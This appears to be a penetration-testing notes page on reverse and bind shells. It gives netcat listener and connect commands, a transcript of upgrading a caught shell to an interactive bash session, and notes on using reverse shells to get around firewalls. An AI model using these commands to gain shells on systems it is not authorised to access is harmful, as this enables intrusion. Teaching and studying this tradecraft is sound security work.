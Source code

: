 # Shells

## Attack tree

```text
1 Reverse shell
2 Bind shell
```

## Examples

### Netcat

Starting a netcat listener on Linux for receiving from a reverse shell of the target:

    # nc -lvnp <port-number>

To obtain a bind shell on a target where there is already a listener waiting on a chosen port of the target:

    # nc <target-ip> <chosen-port>

Stabilise a netcat shell on Linux systems:

* Spawn a better featured bash shell
* Export to have access to term commands such as `clear`
* Background the shell with `Ctrl+Z`. Back in our own terminal, use `stty raw -echo; fg` to turn off terminal echo 
(which gives access to tab autocompletes, the arrow keys, and `Ctrl+C` to kill processes) and foreground the shell. 

```text
adversary@kali:~# nc -lvnp <port-number>
listening on [any] <port-number>
connect to [...] from (UNKNOWN) [...]

python -c 'import pty;pty.spawn("/bin/bash")'
shell@linux:~$ export TERM=xterm
shell@linux:~$ ^Z
[1]+ Stopped        nc -lvnp <port-number>
adversary@kali:~# stty raw -echo; fg
nc -lvnp <port-number>

shell@linux:~$ whoami
shell
```

## Notes

Shells are used for interfacing with a Command Line environment (CLI) like the common `bash` or `sh` programs in 
Linux, and the `cmd.exe` and `Powershell` on Windows. When targeting remote systems it is sometimes possible to force 
an application running on the server (such as a webserver, for example) to execute arbitrary code. When this happens, 
we want to use this initial access to obtain a shell running on the target.

* Reverse shells are when the target is forced to execute code that connects back to the attack computer. 
This requires setting up a listener which would be used to receive the connection on the attack machine. Reverse 
shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target.
* Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on 
the target. This would then be open up a port to receive on that you can connect to, and obtain remote code execution. 
This has the advantage of not requiring any configuration on the attack network, but may be prevented by firewalls 
protecting the target.

## Tools

* [Netcat](https://www.kali.org/tools/netcat/)
* [Socat](https://www.kali.org/tools/socat/)
* [Socat binaries](https://github.com/3ndG4me/socat/releases)
* [Metasploit -- multi/handler](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/handler)

## Resources